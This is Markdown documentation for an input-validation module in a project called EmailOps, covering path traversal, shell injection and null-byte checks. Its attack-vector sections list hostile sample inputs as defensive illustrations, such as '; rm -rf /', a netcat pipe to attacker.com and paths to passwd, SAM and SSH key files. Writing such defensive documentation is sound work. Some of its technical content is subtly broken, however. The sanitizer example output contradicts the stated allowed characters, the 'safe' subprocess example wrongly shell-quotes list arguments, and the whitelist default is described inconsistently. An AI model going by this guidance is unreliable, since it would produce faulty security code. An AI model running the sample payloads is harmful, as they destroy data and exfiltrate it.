


# `validators.py` - Security and Input Validation Framework

## 1. Overview

This module provides a comprehensive security and validation framework for EmailOps, implementing defense-in-depth against common vulnerabilities. It serves as the central validation gateway for all external inputs, ensuring data integrity and preventing security breaches.

**Core Security Principles:**
- **Default Deny**: Security features are opt-in, not opt-out
- **Centralized Validation**: Single source of truth for validation logic
- **Input Sanitization**: Active cleaning and neutralization of harmful inputs
- **Principle of Least Privilege**: Command execution with whitelisting support
- **Defense in Depth**: Multiple layers of protection

---

## 2. Validation Functions

### 2.1 Path Validation

#### `validate_directory_path()`

```python
def validate_directory_path(
    path: str | Path, 
    must_exist: bool = True, 
    allow_parent_traversal: bool = False
) -> tuple[bool, str]
```

**Security Features:**
- **Path Traversal Prevention**: Blocks `..` patterns by default
- **Path Resolution**: Expands `~` and resolves to absolute paths
- **Existence Verification**: Optional check for directory existence
- **Type Validation**: Ensures path is actually a directory

**Workflow:**


#### `validate_file_path()`

```python
def validate_file_path(
    path: str | Path,
    must_exist: bool = True,
    allowed_extensions: list[str] | None = None,
    allow_parent_traversal: bool = False
) -> tuple[bool, str]
```

**Additional Features:**
- **Extension Validation**: Whitelist of allowed file types
- **Case-Insensitive Matching**: Extensions compared in lowercase
- **File Type Verification**: Ensures path is actually a file

---

### 2.2 Input Sanitization

#### `sanitize_path_input()`

```python
def sanitize_path_input(path_input: str) -> str
```

**Sanitization Steps:**
1. **Null Byte Removal**: Prevents null byte injection (`\0`)
2. **Whitespace Trimming**: Removes leading/trailing spaces
3. **Metacharacter Removal**: Keeps only safe characters
   - Allowed: `[a-zA-Z0-9._\-/\\: ]`
   - Removed: Shell metacharacters, control characters

**Example:**
```python
# Input: "../../etc/passwd\0; rm -rf /"
# Output: "etcpasswd rm -rf "
```

---

### 2.3 Command Execution Safety

#### `validate_command_args()`

```python
def validate_command_args(
    command: str, 
    args: list[str], 
    allowed_commands: list[str] | None = None
) -> tuple[bool, str]
```

**Protection Mechanisms:**
1. **Command Whitelisting**: Optional list of allowed commands
2. **Dangerous Character Detection**: Blocks shell metacharacters
   - Semicolon (`;`) - Command chaining
   - Pipe (`|`) - Command piping
   - Ampersand (`&`) - Background execution
   - Dollar (`$`) - Variable expansion
   - Backtick (`` ` ``) - Command substitution
   - Newlines (`\n`, `\r`) - Line injection
3. **Null Byte Detection**: Prevents string termination attacks

**Validation Flow:**


#### `quote_shell_arg()`

```python
def quote_shell_arg(arg: str) -> str
```

**Implementation:**
- Uses `shlex.quote()` for POSIX-compliant quoting
- Prevents shell injection in constructed commands
- Safe for use in subprocess calls

---

### 2.4 Google Cloud Validation

#### `validate_project_id()`

```python
def validate_project_id(project_id: str) -> tuple[bool, str]
```

**GCP Project ID Rules:**
1. **Length**: 6-30 characters
2. **Start**: Must begin with lowercase letter
3. **Characters**: Only lowercase letters, numbers, hyphens
4. **End**: Cannot end with hyphen

**Validation Regex:**
```python
r'^[a-z][a-z0-9-]*$'
```

**Examples:**
- ✅ Valid: `my-project-123`, `testing-env-01`
- ❌ Invalid: `MyProject`, `123-project`, `project-`

---

### 2.5 Environment Variable Validation

#### `validate_environment_variable()`

```python
def validate_environment_variable(
    name: str, 
    value: str
) -> tuple[bool, str]
```

**Validation Rules:**
1. **Name Format**: 
   - Pattern: `^[A-Z_][A-Z0-9_]*$`
   - Examples: `API_KEY`, `DATABASE_URL`, `MAX_RETRIES`
2. **Value Safety**:
   - No null bytes allowed
   - No length restrictions (OS-dependent)

---

## 3. Security Vulnerabilities Prevented

### 3.1 Directory Traversal

**Attack Vector:**
```python
# Attacker input
"../../etc/passwd"
"..\\..\\windows\\system32\\config\\sam"
```

**Prevention:**
- Default `allow_parent_traversal=False`
- Checks for `..` in path string
- Resolves to absolute path for verification

### 3.2 Shell Injection

**Attack Vector:**
```python
# Command injection attempts
command = "ls"
args = ["-la", "; rm -rf /", "| nc attacker.com 4444"]
```

**Prevention:**
- Dangerous character detection
- Argument quoting with `shlex.quote()`
- Command whitelisting support

### 3.3 Null Byte Injection

**Attack Vector:**
```python
# Null byte to terminate string early
"/var/log/app.log\0../../etc/passwd"
```

**Prevention:**
- Explicit null byte removal in sanitization
- Null byte detection in validation

### 3.4 Path Confusion

**Attack Vector:**
```python
# Symlink attacks, relative paths
"./../../../../tmp/evil"
"~/../../root/.ssh/id_rsa"
```

**Prevention:**
- Path resolution to absolute
- Path type verification (file vs directory)
- Symlink resolution via `resolve()`

---

## 4. Usage Patterns

### 4.1 Safe File Operations

```python
from emailops.validators import validate_file_path

def safe_read_file(user_input: str) -> str:
    # Validate before use
    is_valid, message = validate_file_path(
        user_input,
        must_exist=True,
        allowed_extensions=['.txt', '.log'],
        allow_parent_traversal=False
    )
    
    if not is_valid:
        raise ValueError(f"Invalid file path: {message}")
    
    # Now safe to use
    with open(user_input, 'r') as f:
        return f.read()
```

### 4.2 Safe Command Execution

```python
from emailops.validators import validate_command_args, quote_shell_arg
import subprocess

def safe_run_command(cmd: str, args: list[str]) -> str:
    # Define allowed commands
    allowed = ['git', 'python', 'npm']
    
    # Validate
    is_valid, message = validate_command_args(cmd, args, allowed)
    if not is_valid:
        raise ValueError(f"Invalid command: {message}")
    
    # Quote arguments for safety
    safe_args = [quote_shell_arg(arg) for arg in args]
    
    # Execute safely
    result = subprocess.run(
        [cmd] + safe_args,
        capture_output=True,
        text=True,
        check=True
    )
    return result.stdout
```

### 4.3 Safe Path Input

```python
from emailops.validators import sanitize_path_input, validate_directory_path

def process_user_directory(raw_input: str) -> Path:
    # Sanitize first
    clean_path = sanitize_path_input(raw_input)
    
    # Then validate
    is_valid, message = validate_directory_path(
        clean_path,
        must_exist=True,
        allow_parent_traversal=False
    )
    
    if not is_valid:
        raise ValueError(f"Invalid directory: {message}")
    
    return Path(clean_path)
```

---

## 5. Integration with EmailOps

### 5.1 Usage in Other Modules

**[`doctor.py`](doctor.py):**
- Validates export paths
- Sanitizes user-provided directories

**[`llm_runtime.py`](llm_runtime.py):**
- Validates provider configurations
- Checks environment variable formats

**[`email_indexer.py`](email_indexer.py):**
- Validates index directory paths
- Ensures safe file operations

### 5.2 Error Handling

All validation functions return `tuple[bool, str]`:
- **Success**: `(True, "Valid")`
- **Failure**: `(False, "Descriptive error message")`

This allows for:
1. **Graceful Degradation**: Handle validation failures appropriately
2. **User Feedback**: Provide clear error messages
3. **Logging**: Track validation failures for security monitoring

---

## 6. Configuration & Environment

### 6.1 Security-Related Environment Variables

While this module doesn't directly use environment variables, it validates them for other modules:

| Variable Pattern | Validation |
|-----------------|------------|
| `[A-Z_][A-Z0-9_]*` | Valid environment variable name |
| No `\0` bytes | Valid environment variable value |

### 6.2 Default Security Settings

| Setting | Default | Rationale |
|---------|---------|-----------|
| `allow_parent_traversal` | `False` | Prevent directory traversal by default |
| `must_exist` | `True` | Verify resources exist before use |
| Command whitelist | `None` | No commands allowed by default |

---

## 7. Testing & Verification

### 7.1 Unit Test Coverage

The module should be tested against:
1. **Valid Inputs**: Ensure legitimate paths pass
2. **Attack Vectors**: Verify malicious inputs are blocked
3. **Edge Cases**: Handle empty strings, None values
4. **Cross-Platform**: Test Windows and Unix paths

### 7.2 Security Testing Checklist

- [ ] Directory traversal attempts blocked
- [ ] Shell injection attempts blocked
- [ ] Null byte injection handled
- [ ] Symlink attacks resolved safely
- [ ] Command whitelisting enforced
- [ ] Path type verification works
- [ ] Extension validation case-insensitive
- [ ] Error messages don't leak sensitive info

---

## 8. Best Practices

### 8.1 Defense in Depth

1. **Sanitize First**: Clean input before validation
2. **Validate Second**: Check cleaned input meets requirements
3. **Use Last**: Only use validated, sanitized input

### 8.2 Fail Securely

1. **Default Deny**: Reject unless explicitly allowed
2. **Explicit Errors**: Clear messages without exposing internals
3. **Log Failures**: Track validation failures for monitoring

### 8.3 Regular Updates

1. **Monitor CVEs**: Stay updated on new attack vectors
2. **Update Patterns**: Add new dangerous patterns as discovered
3. **Test Regularly**: Ensure validations remain effective

---

## 9. Limitations & Considerations

### 9.1 Known Limitations

1. **Symlink Race Conditions**: Time-of-check to time-of-use gaps
2. **Unicode Attacks**: Limited Unicode normalization
3. **Performance**: Regex operations can be slow on large inputs

### 9.2 Platform Differences

1. **Path Separators**: `/` on Unix, `\` on Windows
2. **Path Length**: OS-specific limits not enforced
3. **Case Sensitivity**: Windows paths case-insensitive

### 9.3 Future Enhancements

1. **Rate Limiting**: Prevent validation DoS
2. **Unicode Normalization**: Better international character support
3. **Caching**: Cache validation results for performance
4. **Audit Logging**: Detailed security event logging